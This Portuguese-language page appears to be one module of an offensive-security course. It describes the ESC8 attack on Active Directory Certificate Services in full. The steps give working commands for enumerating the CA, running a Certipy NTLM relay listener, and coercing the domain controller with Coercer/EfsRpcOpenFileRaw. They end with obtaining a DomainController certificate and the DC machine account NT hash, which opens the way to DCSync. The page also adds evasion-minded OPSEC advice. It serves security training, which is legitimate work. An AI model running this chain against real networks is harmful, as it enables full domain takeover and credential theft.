




# ESC8, execução conceitual

Esta seção mostra a mecânica da técnica com sintaxe real de ferramenta. Os alvos são placeholders genéricos. O objetivo é ensinar o fluxo, não servir de roteiro para um ambiente específico.

Variáveis usadas abaixo.

```
<attacker-ip>    IP do operador na interface que a vítima enxerga (por exemplo tun0 na VPN)
<adcs-host>      host da Autoridade Certificadora com Web Enrollment
<dc-ip>          IP do Domain Controller alvo da coerção
```

## Passo 0, reconhecimento do AD CS

Enumeração de diretórios no host candidato a CA revela os endpoints de inscrição.

```bash
gobuster dir -u http://<adcs-host> \
  -w /usr/share/wordlists/dirb/common.txt \
  -x aspx,asp,html,txt -t 20
```

Presença de `/certsrv/` e `/certenroll/` confirma AD CS com Web Enrollment.



A página inicial de `/certsrv/` identifica a Autoridade Certificadora pelo nome.



Se a ferramenta estiver disponível, o Certipy enumera templates vulneráveis diretamente.

```bash
certipy-ad find -u <user>@<domain> -p <pass> -dc-ip <dc-ip> -stdout -vulnerable
```

Sem credencial, a avaliação é feita pela superfície. Web Enrollment por HTTP já é a pré-condição central do ESC8.

## Passo 1, subir o listener de relay

O Certipy coloca de pé um servidor que recebe a autenticação coagida e a repassa para a CA, solicitando um certificado com o template escolhido.

```bash
certipy-ad relay -target http://<adcs-host> -template DomainController
```

Saída esperada, o Certipy identifica sozinho o endpoint `certfnsh.asp` (ESC8) e passa a escutar.

```
[*] Targeting http://<adcs-host>/certsrv/certfnsh.asp (ESC8)
[*] Listening on 0.0.0.0:445
[*] Setting up SMB Server on port 445
```



## Passo 2, coagir a autenticação da conta de máquina do DC

Com o listener ativo, dispara-se a coerção. O MS-EFSR (via `EfsRpcOpenFileRaw`) força o DC a autenticar contra o operador. O `-l` aponta para o IP do atacante na interface que o DC enxerga.

```bash
coercer coerce -l <attacker-ip> -t <dc-ip> -u '' -p '' \
  --filter-method-name EfsRpcOpenFileRaw --always-continue
```

A sessão nula (`-u '' -p ''`) funciona quando o alvo permite autenticação anônima para o endpoint coagido.



## Passo 3, a CA emite o certificado

O DC autentica de volta, o Certipy faz relay para a CA e esta emite o certificado com o template `DomainController` em nome da conta de máquina. O resultado é um arquivo PFX.

```
[*] Certificate has no object SID        (aviso, sem impacto no próximo passo)
[*] Saved certificate and private key to '<dc-machine>.pfx'
```

O aviso "Certificate has no object SID" é esperado em vários cenários de relay e não impede o uso do PFX para autenticação Kerberos.

## Passo 4, do certificado ao hash NT

De posse do PFX, o Certipy autentica via PKINIT e recupera o TGT e o hash NT da conta de máquina.

```bash
certipy-ad auth -pfx <dc-machine>.pfx -dc-ip <dc-ip>
```

Saída, o Certipy devolve o hash NT da conta de máquina do DC. Como essa conta tem direito de replicação de diretório, o caminho para DCSync está aberto. Continua no módulo [02-dcsync](../02-dcsync/).

## Observação de OPSEC

O listener na porta 445 e a abertura de SMB Server no operador são ruidosos. A coerção gera autenticações de conta de máquina para um destino incomum, que é exatamente o sinal que a [detecção](detection.md) procura. Em um engajamento real, o timing entre coerção e relay é curto e a janela de exposição do listener deve ser minimizada.
